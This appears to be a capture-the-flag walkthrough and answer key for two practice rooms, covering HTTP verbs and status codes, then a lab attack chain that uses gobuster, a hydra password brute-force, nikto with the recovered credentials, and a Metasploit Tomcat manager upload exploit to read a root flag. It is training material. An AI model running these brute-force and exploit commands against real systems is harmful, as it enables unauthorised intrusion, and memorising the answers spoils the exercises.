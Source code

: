 # Web Fundamentals

## Web Fundamentals

### Task 3 More HTTP - Verbs and request formats

1. Verb used for login?
```
POST
```
2. Verb used to see bank balance once logged in?
```
GET
```
3. Does body of GET request matter?
```
nay
```
4. Status code for "I'm a teapot"?
```
418
```
5. Status code when unauthenticated?
```
401
```

### Task 5 Mini CTF

1. GET flag
```
curl http://IP:8081/ctf/get
```
2. POST flag
```
curl -X POST -d flag_please http://IP:8081/ctf/post
```
3. Get cookie flag
```
Inspect element for /ctf/getcookie, then under "storage"
```
4. Set cookie flag
```
curl -b "flagpls=flagpls" http://IP:8081/ctf/sendcookie
```

## ToolsRus

### Task 1 ToysRus

To find directories
```
gobuster dir -u http://IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

To find Bob's password
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.219.157 http-get /protected
```

Using Nikto with creds
```
nikto -id bob:bubbles -h http://10.10.219.157:1234/manager/html
```

use metasploit to exploit
```
use exploit/multi/http/tomcat_mgr_upload
```

Once meterpreter has spawned
```
getuid
```
```
cat /root/flag.txt
```